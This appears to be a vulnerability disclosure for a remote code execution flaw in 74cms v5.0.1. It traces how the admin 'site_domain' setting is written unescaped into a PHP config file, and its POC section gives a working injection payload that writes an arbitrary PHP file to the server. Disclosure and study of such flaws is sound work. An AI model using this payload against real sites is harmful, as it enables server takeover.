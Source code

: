 # 74cms Remote Code Execution Vulnerability  
* Vulnerability Type :  
Remote Code Execution  
* Vulnerability Version :  
74CMS = v5.0.1   
* Recurring environment:  
Windows 10  
PHP 5.6.9  
Apache 2.4.23  
* Vulnerability analysis  
1. c=config&a=edit -> Controller=config&action=edit -> /Application/Admin/Controller/ConfigController.class.php Line 9: I('request.site_domain','','trim') -> trim($site_domain,'/') -> '.'.implode('.',$domain) -> array('domain'=>$domain) -> $this->update_config($config,CONF_PATH.'url.php')
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/05.png)    

2. I('request.site_domain','','trim') in /ThinkPHP/Common/functions.php Line 271: request.site_domain -> $_REQUEST['site_domain'] ->$_REQUEST['site_domain'] is string -> trim($_REQUEST['site_domain'] )  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/06.png)    

3. back to /Application/Admin/Controller/ConfigController.class.php Line 29: array('SESSION_OPTIONS' => array('domain'=>$domain), 'COOKIE_DOMAIN' => $domain) -> update_config($config,CONF_PATH.'url.php')  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/07.png)    

4. update_config($config,CONF_PATH.'url.php') in /Application/Common/Controller/BackendController.class.php Line 467:
multimerge($config, $new_config) -> file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX)  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/08.png)     

5. multimerge($config, $new_config) in /Application/Common/Common/function.php Line 938: no restricted  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/09.png)    

6. CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' -> /Application/Common/Conf/url.php  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/11.png)   

7. var_export(): Quote string with slashes&Convert special characters to HTML entities -> stripslashes(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/12.png)  

8. /Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code},'  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/10.png)    

* POC  
<?php phpinfo();?> -> PD9waHAgcGhwaW5mbygpOz8+
site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8+')),'  
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/04.png)   
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/01.png)   
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/03.png)   
![image](https://github.com/BigTiger2020/74cms-rce/blob/main/02.png) 


